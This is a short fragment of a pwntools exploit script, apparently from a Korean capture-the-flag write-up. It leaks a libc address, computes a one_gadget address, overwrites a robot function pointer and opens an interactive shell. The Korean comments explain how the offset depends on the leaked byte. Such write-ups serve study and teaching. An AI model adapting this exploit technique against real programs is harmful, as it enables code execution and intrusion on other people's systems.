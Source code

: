 ```
custom(0x500, b'B', -1)
# data 값이 'B'가 아니라 'C'가 된다면, 아스키코드 기준 1이 커진 값이 입력되므로, offset은 0x3ebc42 가 아니라 0x3ebc43가 되야한다.
# 반대로 'A'라면, 0x3ebc41이어야 한다.

# custom(0x500, b'a'*0x8, -1)
# p.recvuntil(b'a'*0x8)

libc_base = u64(p.recvline()[:-1].ljust(8, b'\x00')) - 0x3ebc42
og = libc_base + 0x10a41c  # 제약 조건을 만족하는 원가젯
# og = libc_base + 0x4f3ce
# og = libc_base + 0x4f3d5
# og = libc_base + 0x4f432

# [2] `robot->fptr` Overwrite
human(1, og)
robot(1)

p.interactive()
```
